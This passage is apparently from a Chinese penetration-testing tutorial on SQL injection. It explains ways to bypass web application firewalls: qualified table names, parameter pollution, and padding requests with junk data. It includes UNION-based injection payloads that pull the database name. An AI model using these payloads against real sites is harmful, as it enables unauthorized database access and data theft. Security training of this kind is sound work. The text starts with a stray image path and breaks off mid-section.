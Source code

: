 ```sql
# 有些 waf 的拦截规则 并不会拦截[库名].[表名]这种模式。
select * from users
-> select * from test.users

```

#### 3、参数污染绕过

```sql
# 在 php 语言中 id=1&id=2 后面的值会自动覆盖前面的值，不同的语言有不同的特性。可以利用这点绕过一 些 waf 的拦截。以下是其他污染特性
id=1' union all select 1,database(),3 --+
id=id=1@id=0' union all select 1,database(),3  --+

```

![img](../images/【原创】渗透思路-SQL注入详解/t01a24d0be906755e3e.png)



#### 4、脏数据溢出绕过

```sql
# 数据太多超过waf检测范围，然后造成绕过,前面填垃圾数据后面填要注入的SQL语句，如果是GET传参，参数值超过GET所能运行的长度可能无法利用，所以最好是POST传参(前提是对方支持POST传参)
```
